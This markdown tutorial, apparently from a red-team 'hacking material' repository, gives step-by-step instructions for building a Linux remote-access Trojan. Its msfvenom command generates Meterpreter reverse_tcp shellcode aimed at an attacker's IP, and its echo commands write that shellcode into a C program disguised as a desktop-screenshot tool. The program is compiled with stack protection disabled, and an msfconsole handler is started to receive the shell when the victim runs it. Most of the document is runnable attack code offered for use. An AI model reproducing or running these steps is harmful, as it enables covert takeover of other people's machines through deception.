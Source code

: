 #### EXERCISE OBJECTIVES
Take control of a linux system remotely ( metasploit - RAT )

<br />

#### STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### SOCIAL ENGINEERING
'Take a desktop screenshot using a C program'.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also contains a system command that takes a screenshot to the desktop of the target PC using<br />
[MITRE ATT&CK T1113 (xwd package)](https://attack.mitre.org/techniques/T1113/) Technic.<br />

<br /><br />

| DEPENDENCIE | FUNCTION | REQUIRED |
|---|---|---|
| Metasploit | Build shellcode ; recive connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### SHELLCODING DESCRIPTION

<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

<br /><br /><br />

### STEP-BY-STEP (HOW-TO)

<br />

#### Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

<br />

#### Use Metasploit to Build Shellcode in C Format

```
   ## Build raw shellcode in C
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -a x86 --platform linux -f c -o chars.raw

```

<br />

#### See whats written inside chars.raw (optional)

```
   cat chars.raw
```

<br />

#### Parse shellcode data and store it into a local bash variable

```
   pa=$(cat chars.raw | grep -v "=" | tr -d '"; ' | tr -d '\n')
```

<br />

#### Insert the C shellcode created into a C program

```
   echo "#include<stdio.h>" > payload.c
   echo "#include<stdlib.h>" >> payload.c
   echo "#include<string.h>" >> payload.c
   echo "" >> payload.c
   echo "unsigned char buf[] = \"$pa\";" >> payload.c
   echo "" >> payload.c
   echo "int main()" >> payload.c
   echo "{" >> payload.c
   echo "  printf(\"[i] Please Wait, Taking Screenshot ..\");" >> payload.c
   echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  printf(\"[i] Screenshot Stored Under: /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  system(\"sleep 1; xwud /tmp/ScreenShot.xwd\");" >> payload.c
   echo "  void (*ret)() = (void(*)())buf;" >> payload.c
   echo "  ret();" >> payload.c
   echo "}" >> payload.c
```

<br />

#### See whats written inside payload.c (optional)

```
   cat payload.c
```

<br />

#### Use GCC to compile the C program (make it executable)

```
 sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

<br />

#### Start metasploit multi handler

```
   # WARNING: Replace LHOST value by your local ip address
   # WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64
   sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

<br />

#### Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


